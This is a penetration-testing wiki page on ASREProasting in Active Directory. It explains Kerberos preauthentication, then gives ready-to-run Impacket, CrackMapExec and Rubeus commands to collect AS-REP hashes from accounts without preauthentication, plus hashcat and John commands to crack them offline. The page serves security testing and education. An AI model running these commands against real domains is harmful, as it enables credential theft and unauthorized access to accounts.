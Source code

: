 # ASREProast

## Theory

When asking the KDC \(Key Distribution Center\) for a TGT \(Ticket Granting Ticket\), the requesting user needs to send a piece of information \(a timestamp\) encrypted with it's own credentials. It ensures the user is requesting a TGT for himself. This is called Kerberos preauthentication.

The TGT is then sent to the user in the `KRB_AS_REP` message, but that message also contains a session key. That session key is encrypted with the requested user's NT hash.

Kerberos preauthentication prevents attackers from requesting a TGT for any user, receive the `KRB_AS_REP` message, extract the session key and crack it offline in an attempt to retrieve that user's password.

Because some applications don't support Kerberos preauthentication, it is common to find users with Kerberos preauthentication disabled, hence allowing attackers to request TGTs for these users and crack the session keys offline. This is ASREProasting.

## Practice

{% hint style="info" %}
While this attack can be carried out without any prior foothold \(domain user credentials\), there is no way of finding out users with `Do not require Kerberos preauthentication` set without that prior foothold.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) \(Python\) can get TGTs for the users that have the property `Do not require Kerberos preauthentication` set.

```bash
# users list dynamically queried with an LDAP anonymous bind
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt 'DOMAIN/'

# with a users file
GetNPUsers.py -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt 'DOMAIN/'

# users list dynamically queried with a LDAP authenticated bind (password)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt 'DOMAIN/USER:Password'

# users list dynamically queried with a LDAP authenticated bind (NT hash)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' 'DOMAIN/USER'
```

This can also be achieved with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\).

```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt
```
{% endtab %}

{% tab title="Windows" %}
The same thing can be done with [Rubeus](https://github.com/GhostPack/Rubeus) from a session running with a domain user privileges.

```bash
Rubeus.exe asreproast  /format:hashcat /outfile:ASREProastables.txt
```
{% endtab %}
{% endtabs %}

Depending on the output format used \(`hashcat` or `john`\), [hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can be used to try cracking the hashes.

```bash
hashcat -m 18200 -a 0 ASREProastables.txt $wordlist
```

```bash
john --wordlist=$wordlist ASREProastables.txt
```

## Resources

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-2/" caption="" %}

{% embed url="https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/" caption="" %}

{% embed url="https://social.technet.microsoft.com/wiki/contents/articles/23559.kerberos-pre-authentication-why-it-should-not-be-disabled.aspx" caption="" %}

{% embed url="https://en.hackndo.com/kerberos" caption="" %}

